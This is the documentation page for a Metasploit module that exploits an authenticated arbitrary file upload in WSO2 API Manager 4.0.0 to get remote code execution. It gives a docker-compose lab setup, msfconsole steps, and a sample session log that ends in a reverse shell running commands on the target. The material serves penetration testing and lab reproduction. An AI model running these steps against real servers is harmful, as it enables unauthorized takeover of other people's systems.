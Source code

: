 ## Vulnerable Application

A vulnerability in the 'Add API Documentation' feature allows malicious users with specific permissions
(`/permission/admin/login` and `/permission/admin/manage/api/publish`) to upload arbitrary files to a user-controlled
server location. This flaw could be exploited to execute remote code, enabling an attacker to gain control over the server.

```yaml
services:
  api-manager:
    image: wso2/wso2am:4.0.0-alpine
    container_name: swo2_api_manager
    ports:
      - "9443:9443"

```

```bash
docker-compose up
```
## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_api_manager_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0
```
msf6 exploit(multi/http/wso2_api_manager_file_upload_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target...
[+] Authentication successful
[+] The target appears to be vulnerable. Detected WSO2 API Manager 4.0.0 which is vulnerable.
[+] Authentication successful
[*] Listing APIs...
[+] Document created successfully
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload... 
[+] Payload executed successfully
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:58206) at 2024-11-03 15:36:37 +0100

id
uid=802(wso2carbon) gid=802(wso2) groups=802(wso2)
pwd
/home/wso2carbon/wso2am-4.0.0
exit
[*] 127.0.0.1 - Command shell session 2 closed.
```

## Options

### HttpUsername (required)

The username to authenticate with.

### HttpPassword (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)

